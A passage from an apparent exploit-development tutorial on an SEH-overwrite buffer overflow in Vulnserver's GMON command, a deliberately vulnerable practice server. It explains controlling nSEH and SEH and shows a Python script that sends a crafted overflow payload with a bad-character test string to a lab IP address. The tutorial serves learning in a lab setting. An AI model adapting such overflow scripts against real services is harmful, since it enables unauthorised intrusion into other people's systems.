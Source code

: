 
Our ```nSEH``` and ```SEH``` is filled with our own data correctly, so it fits now

Here ```0x43434343``` will be placed in EIP if there is no exception caused by SEH

For now, we could control SEH at runtime and the data in SEH is from our buffer payload, which will be used to reach EIP

## Finding bad characters

After controlling SEH, it is mandatory to check for bad characters

Because bad characters may damage your shellcode execution which may result in ```exploitation failure```

To find bad characters manually using debugger, run this python script

```c
┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ cat badchars.py 
import socket, sys
# collection of bad characters except \x00
badchars=(b"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f"
b"\x20\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
b"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f"
b"\x60\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f"
b"\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f"
b"\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf"
b"\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf"
b"\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")
# to overwrite buffer and EBP
payload=b"A"*3549
# to overwrite nSEH
payload+=b"B"*4
# to overwrite SEH
payload+=b"C"*4
# badchars on ECX
payload+=badchars
# padding
payload+=b"D"*(5000-len(payload))
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(("192.168.116.140", 9999))
s.send((b"GMON /."+payload))
s.close()
sys.exit()

┌──(kali㉿aidenpearce369)-[~/vulnserver/GMON]
└─$ python3 badchars.py  
```
